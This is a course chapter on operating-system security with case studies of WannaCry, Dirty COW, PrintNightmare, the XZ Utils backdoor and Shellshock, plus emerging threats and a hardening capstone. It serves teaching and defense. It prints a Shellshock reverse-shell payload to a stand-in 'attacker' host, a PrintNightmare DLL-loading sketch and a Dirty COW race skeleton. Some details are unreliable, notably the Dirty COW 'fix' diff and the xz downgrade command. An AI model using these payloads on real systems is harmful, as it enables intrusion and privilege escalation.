

# Week 15: Case Studies, Emerging Threats, and Course Synthesis

## Overview

The most powerful lessons in OS security come not from textbooks but from the incidents that have shaped the field — catastrophic failures in real systems that exposed millions of users, disrupted critical infrastructure, and cost billions of dollars. This final chapter examines five landmark OS security incidents, extracts their technical lessons, surveys the emerging threat landscape, and synthesizes the complete OS security curriculum into a coherent professional framework.

---

## The Value of Case Studies

Security practitioners who study historical incidents develop pattern recognition — the ability to recognize a class of vulnerability or attack technique and apply mitigations before they manifest in their own environment. Every case study in this chapter maps directly to concepts covered in previous weeks: patch management (Week 14), kernel vulnerabilities (Week 13), supply chain integrity, and authentication failures (Week 4).



---

## Case Study 1: WannaCry / EternalBlue (2017)

### Technical Background

On May 12, 2017, the WannaCry ransomware worm began propagating across the internet at unprecedented speed. Within 24 hours it had infected over 230,000 systems in 150 countries. The technical basis was **EternalBlue** (CVE-2017-0144 / MS17-010), an exploit developed by the NSA's Equation Group and leaked by Shadow Brokers in April 2017 — just 28 days before WannaCry's release.

**The vulnerability**: A buffer overflow in the Windows SMBv1 protocol handler (`srv.sys` kernel driver). The SMB protocol parses network data in the kernel context (Ring 0). Malformed SMB packets could trigger an out-of-bounds write, allowing an attacker to achieve **kernel-mode remote code execution** without authentication.

```
Attacker machine → SMBv1 port 445 → Windows kernel (srv.sys) → EternalBlue RCE
                                                                    ↓
                                                          DoublePulsar kernel backdoor installed
                                                                    ↓
                                                          WannaCry payload downloaded and executed
```

**DoublePulsar** was a kernel-mode backdoor that EternalBlue installed first. It used an undocumented SMB opcode to inject shellcode directly into kernel memory, establishing a persistent backdoor that listened for further commands.

### Impact

| Metric | Value |
|--------|-------|
| Systems infected | 230,000+ in first 24 hours |
| Countries affected | 150 |
| UK NHS impact | 80+ trusts disrupted; 19,000 appointments cancelled |
| Estimated total damage | $4–8 billion |
| FedEx/TNT loss alone | $400 million |

### Key Lessons

1. **Patch critical vulnerabilities immediately**: MS17-010 was patched in March 2017. WannaCry launched in May 2017. Organizations running unpatched Windows had 28 days to patch after the Shadow Brokers leak. Many did not.
2. **Disable legacy protocols**: SMBv1 was unnecessary on virtually every WannaCry victim. Network-level blocking of SMBv1 (port 445 between workstations) would have stopped propagation even on unpatched systems.
3. **Network segmentation limits blast radius**: Organizations with proper internal segmentation saw WannaCry infect isolated segments rather than entire networks.
4. **Kill switches matter**: Security researcher Marcus Hutchins discovered that WannaCry queried an unregistered domain as a "kill switch." Registering the domain halted the worm — an accidental but critical discovery.

---

## Case Study 2: Dirty COW (CVE-2016-5195)

### Technical Background

Dirty COW (Copy-On-Write) was a **race condition** in the Linux kernel's memory management subsystem that allowed any local user to write to read-only memory mappings — including files owned by root. The vulnerability had existed in the Linux kernel for **9 years** (since 2007, kernel version 2.6.22).

**The mechanism**: When a process maps a read-only file using `mmap()` with `MAP_PRIVATE`, writes to that mapping trigger copy-on-write — the kernel creates a private copy. The race condition existed between two threads: one continuously writing to the mapping, one continuously calling `madvise(MADV_DONTNEED)` to discard the private copy. In a narrow window, the kernel would write to the original read-only file instead of the private copy.

```c
// Simplified Dirty COW exploit structure
// Thread 1: write to the copy-on-write mapping
void *write_thread(void *arg) {
    while (1) {
        lseek(fd, 0, SEEK_SET);
        write(fd, payload, strlen(payload));
    }
}

// Thread 2: discard the private copy, racing with Thread 1
void *madvise_thread(void *arg) {
    while (1) {
        madvise(addr, len, MADV_DONTNEED);  // discard private copy
        // In the race window: next write goes to original file
    }
}
// Result: /etc/passwd overwritten with attacker's root entry
```

### Impact and Exploitation

- **Any local user → root** in a few seconds
- Reliability: the exploit was highly reliable across all Linux kernel versions from 2.6.22 to 4.8.3
- Android impact: millions of Android devices were vulnerable (Android uses the Linux kernel)
- The patch: 5 lines of code adding a proper lock to prevent the race

```c
// The fix: 5 lines in mm/memory.c
- if (!(flags & FOLL_COW))
-     goto out_put;
+ if (!pte_write(pte)) {
+     if (!(flags & FOLL_COW))
+         goto out_put;
+ }
```

**Lessons**: Race conditions in kernel memory management are extremely difficult to find through code review alone. Long-lived vulnerabilities (9 years) demonstrate that historical kernel code must be reviewed as rigorously as new code.

---

## Case Study 3: PrintNightmare (CVE-2021-1675 / CVE-2021-34527)

### Technical Background

PrintNightmare was a critical vulnerability in the **Windows Print Spooler service** — a service that has existed in Windows since 1993 and runs as **SYSTEM** (the highest Windows privilege level). The vulnerability allowed a remote attacker to execute arbitrary code as SYSTEM, or a local user to escalate to SYSTEM.

**Root cause**: The `AddPrinterDriverEx()` RPC call allowed any authenticated user (even a low-privilege domain user) to specify a path to a DLL that the Print Spooler would load as SYSTEM:

```powershell
# Exploitation concept (simplified):
# Attacker hosts a malicious DLL on a network share
# Calls AddPrinterDriverEx with the path:
$dc = "\\target-server"
$share = "\\attacker-ip\share\evil.dll"
[Win32.PrintSpooler]::AddPrinterDriver($dc, 3, [pscustomobject]@{
    pDriverPath = $share
    pName = "Windows Print Driver"
})
# Windows Print Spooler (running as SYSTEM) loads evil.dll → SYSTEM RCE
```

### The Patching Drama

Microsoft released an initial patch that was quickly bypassed by researchers. The bypass worked because the patch only checked whether the target path was a UNC (network) path — local DLL paths bypassed the check. A second patch was required. This incident illustrates:

1. **Privileged services are high-value targets**: Any service running as SYSTEM that processes external input deserves extraordinary scrutiny.
2. **Patch quality matters**: An incomplete patch can create false security while the vulnerability remains exploitable.
3. **Least privilege for services**: The Print Spooler did not need to run as SYSTEM. Running it as a lower-privilege service account would have limited the impact.

**Immediate mitigation**: Disabling the Print Spooler service on all systems that don't need printing was the only reliable fix while waiting for patches:
```powershell
Stop-Service -Name Spooler
Set-Service -Name Spooler -StartupType Disabled
```

---

## Case Study 4: XZ Utils Backdoor (2024)

### Technical Background

In March 2024, Andres Freund — a Microsoft engineer investigating unexplained SSH login slowdowns on his Debian Sid system — discovered one of the most sophisticated supply chain attacks ever documented. The `xz` compression library (versions 5.6.0 and 5.6.1) had been backdoored with code that, on Debian and Fedora systems using systemd-linked OpenSSH, allowed unauthorized remote access via manipulated RSA key decryption.

**Attack timeline**:
- A persona named "Jia Tan" (JiaT75) began contributing to the xz open-source project in 2021
- Over 2+ years, built trust, became a maintainer
- Used social engineering to pressure the original maintainer (Lasse Collin) and other contributors
- Introduced the backdoor in release 5.6.0 (February 2024) — obfuscated in the build system, not in the main source code
- The backdoor was in `m4/build-to-host.m4` (autoconf) and only activated during the package build process

**Technical mechanism**: The backdoor injected code into the RSA key exchange processing in `sshd`. It replaced the `RSA_public_decrypt` function with a hooked version. Authenticated with a specific, attacker-held private key, the hook would execute a command as root before the authentication failure was returned to the client.

**Why it was nearly catastrophic**: Had the malicious xz versions shipped in stable Debian and Fedora releases (they were caught in the -testing and rawhide channels), millions of Linux servers worldwide would have had a backdoor in their SSH daemon allowing the attacker nation-state silent root access.

```bash
# Detection: check xz version (affected: 5.6.0, 5.6.1)
xz --version
# If 5.6.0 or 5.6.1: immediate downgrade required
apt install --reinstall xz-utils
```

**Lessons**:
1. **Supply chain trust is a vulnerability**: Open-source software is a target for long-term infiltration by sophisticated adversaries
2. **Reproducible builds matter**: Builds that can be verified against source are more resistant to build-system backdoors
3. **Anomaly detection works**: An unexplained 500ms SSH slowdown was the detection signal
4. **Community trust doesn't equal security review**: Being a trusted maintainer should not bypass technical review of code changes

---

## Case Study 5: Shellshock (CVE-2014-6271)

### Technical Background

Shellshock was a vulnerability in the **Bash shell** (versions through 4.3) that had existed for **25 years**. Bash had a feature allowing users to export shell functions through environment variables. The bug: Bash continued parsing and executing code *after* the function definition ended.

```bash
# Proof-of-concept (do not run in production):
env x='() { :;}; echo "VULNERABLE"' bash -c "echo test"
# A vulnerable Bash prints: VULNERABLE
# A patched Bash prints: test

# The CGI attack vector:
# Web servers set HTTP headers as environment variables for CGI scripts
# Attacker sends: User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/attacker/4444 0>&1
# Apache sets HTTP_USER_AGENT to this value
# CGI script runs Bash → RCE
```

**Why it spread so rapidly**: CGI (Common Gateway Interface) scripts were processed by Bash on millions of web servers. The vulnerability was in a standard Unix tool with a 25-year old bug, weaponized within hours of public disclosure. DHCP clients, SMTP servers, and any system running Bash scripts from external input were vulnerable.

**Lessons**:
1. **Legacy code in critical tools carries ancient bugs**: The function-in-environment-variable feature was 25 years old. Security review of old features is as important as reviewing new code.
2. **Attack surface is broader than expected**: Bash as a CGI interpreter was not an obvious attack vector until exploitation proved it
3. **Rapid exploitation is the norm**: Attackers weaponized Shellshock within hours, not weeks

---

## Emerging Threats

### AI-Assisted Vulnerability Discovery and Exploitation

Large Language Models and specialized AI tools are beginning to change the vulnerability research landscape:

- **LLM-assisted fuzzing**: AI models can generate more targeted fuzz inputs by understanding code structure
- **Automated exploit generation**: Research has demonstrated LLMs generating working exploits for CVEs from patch diff analysis
- **Scale of exploitation**: Automated exploitation frameworks can attempt exploitation of thousands of systems simultaneously

The defensive implication: patch windows are shrinking. The time from CVE publication to weaponized exploit that was once measured in weeks is approaching hours or even minutes for well-understood vulnerability classes.

### Memory-Safe OS Development

**Rust in the Linux kernel**: Since Linux 6.1, Rust is an officially supported language for kernel development. Rust's ownership model eliminates entire classes of memory safety bugs (use-after-free, buffer overflow, null pointer dereference) at compile time — without garbage collection overhead.

```rust
// Rust kernel module example (simplified)
use kernel::prelude::*;

module! {
    type: HelloModule,
    name: "hello_module",
    license: "GPL",
}

struct HelloModule;
impl kernel::Module for HelloModule {
    fn init(_module: &'static ThisModule) -> Result<Self> {
        pr_info!("Hello from safe Rust kernel module\n");
        Ok(HelloModule)
    }
}
```

**seL4 Microkernel**: The seL4 microkernel has a formal mathematical proof of functional correctness and security properties — the first OS kernel proven correct. Its capability-based security model is being explored for safety-critical systems.

**Google Fuchsia**: A capability-based OS designed from the ground up without the security debt of POSIX. Every resource access requires an explicit capability token.

### Hardware-Level Threats

**Transient Execution Attacks (Spectre/Meltdown Class)**:
First disclosed in January 2018, this class of attacks exploits CPU speculative execution to read data from memory that should be inaccessible. Despite years of patches, new variants continue to be discovered. The core issue — that speculative execution performs work without privilege checking, then discards results that aren't needed — is fundamental to modern CPU design.

```bash
# Check Spectre/Meltdown mitigation status
grep -H '' /sys/devices/system/cpu/vulnerabilities/*
```

**Rowhammer**: A DRAM physical attack exploiting bit-flip errors caused by rapid repeated reads of adjacent rows. Has been demonstrated to escalate privileges and break VM isolation. Mitigations include Target Row Refresh (TRR) in DDR4/DDR5 and kernel-level scrubbing.

---

## Course Synthesis: The Complete OS Security Picture

Looking back across all 15 weeks, the OS security curriculum forms a coherent layered model:

| Weeks | Topic | Key Insight |
|-------|-------|-------------|
| 1-3 | Foundations, Processes, Authentication | The OS is the security foundation; every upper-layer security depends on it |
| 4-6 | Access Control, Policies, Filesystem | Mandatory Access Control and least privilege are the core security primitives |
| 7-9 | Memory, Software Vulnerabilities, Sandboxing | Exploitation chains from user-space to kernel require multiple mitigations |
| 10 | Windows Security | Platform-specific mechanisms solve the same underlying problems differently |
| 11-12 | Linux Deep Dive, Virtualization | Modern deployments add hypervisor and container security layers |
| 13-14 | Kernel Security, Hardening | Proactive defense through systematic configuration reduction |
| 15 | Case Studies, Emerging Threats | Real-world feedback loop — failures teach us where theory meets practice |

---

## Career Paths in OS Security

**OS Security Researcher**: Focuses on finding vulnerabilities in kernels, hypervisors, and system software. Requires deep C/assembly knowledge, kernel internals expertise. High-demand at: Google Project Zero, Qualcomm security, Linux kernel security team.

**Kernel Developer (Security Focus)**: Implements security features in the Linux kernel — KASLR, LSM modules, hardening patches. Requires kernel contribution experience, C expertise.

**Penetration Tester (OS/Infrastructure Focus)**: Performs authorized attacks on systems to find vulnerabilities before adversaries. OSCP, CRTO certifications relevant.

**Security Architect**: Designs system architectures with security embedded from the start. Requires breadth across all 15 weeks of this course plus business acumen.

**Incident Responder**: Analyzes compromised systems, performs memory forensics, identifies rootkits and persistence mechanisms. GCFE, GCFA certifications relevant.

---

## Capstone Project: OS Hardening Assessment

**Project objective**: Perform a complete CIS Benchmark assessment of a Linux VM and document findings.

```bash
# Step 1: Snapshot the VM (clean state for comparison)
virsh snapshot-create-as myvm "pre-hardening"

# Step 2: Run initial OpenSCAP assessment
oscap xccdf eval \
    --profile cis_level1_server \
    --results before.xml \
    --report before.html \
    /usr/share/xml/scap/ssg/content/ssg-ubuntu2204-xccdf.xml

# Step 3: Apply hardening (using Ansible role or manual controls)
ansible-playbook hardening.yml

# Step 4: Re-run assessment, compare scores
oscap xccdf eval \
    --profile cis_level1_server \
    --results after.xml \
    --report after.html \
    /usr/share/xml/scap/ssg/content/ssg-ubuntu2204-xccdf.xml

# Step 5: Document before/after scores, failed controls, and remediation justification
```

**Deliverables**: 
1. Before-hardening OpenSCAP report
2. Hardening runbook with commands applied and rationale
3. After-hardening OpenSCAP report
4. Executive summary: risk reduction achieved, residual risks, and operational tradeoffs accepted

---

## Key Terms

| Term | Definition |
|------|-----------|
| **EternalBlue** | NSA-developed SMBv1 exploit (CVE-2017-0144) weaponized in WannaCry |
| **DoublePulsar** | Kernel-mode backdoor installed by EternalBlue; used SMB opcode injection |
| **MS17-010** | Microsoft patch for EternalBlue vulnerability; released March 2017 |
| **Dirty COW** | CVE-2016-5195; Linux kernel race condition allowing any local user → root |
| **Race condition** | Vulnerability arising from unpredictable timing between concurrent operations |
| **PrintNightmare** | CVE-2021-34527; Windows Print Spooler SYSTEM RCE via DLL loading |
| **XZ Utils Backdoor** | 2024 supply chain attack backdooring SSH via compromised xz maintainer |
| **Supply chain attack** | Attack targeting software development/distribution infrastructure |
| **Shellshock** | CVE-2014-6271; Bash function parsing bug enabling CGI-triggered RCE |
| **Transient execution** | CPU optimization executing instructions before privilege checks complete |
| **Spectre/Meltdown** | 2018 CPU microarchitecture attacks exploiting speculative execution |
| **Rowhammer** | DRAM bit-flip attack caused by rapid repeated memory row accesses |
| **Rust (kernel)** | Memory-safe language for kernel modules preventing whole classes of bugs |
| **seL4** | Formally verified microkernel with mathematical proof of correctness |
| **Reproducible builds** | Build process that produces identical output, enabling supply chain verification |
| **Kill switch** | Domain check in WannaCry; registering it halted global propagation |
| **OSCP** | Offensive Security Certified Professional — practical pentesting certification |

---

## Review Questions

1. **Analytical:** WannaCry propagated despite a patch being available for 28 days. Identify at least four organizational failures that allowed this to happen and propose specific controls to address each.
2. **Conceptual:** Explain the Dirty COW race condition at a technical level. What two competing operations create the race window, and what is the security consequence when the attacker wins the race?
3. **Analytical:** PrintNightmare's initial patch was bypassed within days. What was the bypass technique, and what does this teach us about the patch review process for privilege-escalation vulnerabilities?
4. **Conceptual:** The XZ Utils backdoor remained undetected for 2+ years despite being in an open-source project with public commits. What factors made this attack so difficult to detect, and what safeguards could have caught it earlier?
5. **Analytical:** Why was Shellshock particularly dangerous compared to a typical memory corruption bug? What characteristic of its attack vector allowed extremely rapid, widespread exploitation?
6. **Conceptual:** Explain "transient execution attacks" (Spectre/Meltdown class). Why has fully mitigating this class of vulnerabilities proven so difficult despite years of work?
7. **Synthesis:** A colleague argues that if memory-safe languages like Rust were used for all system software, OS security would be essentially solved. Do you agree? What categories of OS security vulnerabilities would Rust *not* prevent?
8. **Hands-on Lab (Capstone):** Deploy an Ubuntu 22.04 LTS VM, run an OpenSCAP CIS Level 1 assessment, apply at least 10 hardening controls, and re-run the assessment. Document the score improvement.
9. **Career/Synthesis:** Select one of the five career paths described (researcher, kernel developer, pentester, architect, incident responder). Identify five specific technical skills from this course's 15 weeks that are most relevant to that career path and explain why.
10. **Synthesis:** Looking across all 15 weeks of SCIA-360, identify what you consider the three most important OS security principles. For each, explain how at least two case studies from this chapter either demonstrate the principle's importance or illustrate what happens when it is violated.

---

## Further Reading

1. *The Web Application Hacker's Handbook* — Stuttard & Pinto — for understanding how OS vulnerabilities combine with application-layer attacks
2. Andres Freund's original disclosure of XZ Utils backdoor — openwall.com mailing list, March 29, 2024
3. "An In-depth Analysis of the WannaCry Ransomware" — Talos Intelligence (Cisco) blog
4. Google Project Zero blog — googleprojectzero.blogspot.com — cutting-edge OS and kernel vulnerability research
5. *A Guide to Kernel Exploitation* — Enrico Perla & Massimiliano Oldani (Syngress, 2010) — technical foundation for understanding kernel exploitation primitives
